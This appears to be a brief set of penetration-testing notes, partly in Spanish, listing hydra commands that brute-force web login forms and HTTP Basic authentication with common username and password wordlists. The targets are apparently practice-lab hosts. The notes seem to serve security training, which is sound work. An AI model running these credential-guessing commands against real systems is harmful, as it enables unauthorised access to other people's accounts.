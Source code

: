 `hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt target1.ine.local http-post-form "/acp/login:login_name=^USER^&login_psw=^PASS^:F=Login"


Ejemplos que funcionaron:

```bash
hydra -l admin -P wordlist.txt 10.129.155.168 http-post-form "/nibbleblog/admin.php:username=^USER^&password=^PASS^:F=Incorrect username or password."
```

```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/unix_users.txt -P passwords.txt 127.0.0.1 http-get "/" -m "Authorization: Basic ^USER^:^PASS^" -s 8000
```

```bash
hydra -L /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -P passwords.txt 127.0.0.1 http-get "/" -m "Authorization: Basic ^USER^:^PASS^" -s 8000
```
`